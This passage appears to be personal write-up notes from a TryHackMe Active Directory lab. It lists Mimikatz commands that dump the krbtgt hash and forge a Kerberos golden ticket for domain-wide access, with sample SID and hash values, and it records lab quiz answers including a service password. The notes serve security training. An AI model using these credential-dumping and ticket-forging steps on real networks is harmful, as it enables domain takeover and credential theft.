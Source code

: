 ﻿3.) `lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

![[Pasted image 20240710225206.png]]

**Creating a Golden Ticket**

1. `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`
    Fill fields with appropriate parameters such as
   `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166/krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

![[Pasted image 20240710230848.png]]

**Use the Golden Ticket to access other machine**

1. `misc::cmd`-It opens a new cmd prompt with elevated privileges to all machines

![[Pasted image 20240710231027.png]]

 2. Access other Machines! - You will now have another command prompt with access to all other machines on the network
 
 
 Connect to ovpn in your windows and specify the ip,username and password  shown in tryhackme.

Once conneected a windows pop up will appear with server manager

![[Pasted image 20240711114523.png]]

Now, head on `Tools` and select `Active Directory Users and Computers`

![[Pasted image 20240711114658.png]]


It displays the list of users on the domain and some other useful tabs such as groups and computers.


![[Pasted image 20240711114946.png]]

1. **What tool allows to view the event logs?**
    Ans: Event Viewer 
    ![[Pasted image 20240711115245.png]]
![[Pasted image 20240711115401.png]]

2. **What is the SQL Service password?**
  Ans:  MYpassword123#
  
  You can find it in `Active Directory users and Computers` which you opened previously
![[Pasted image 20240711115743.png]]

# **TASK-7: Maintaining Access**
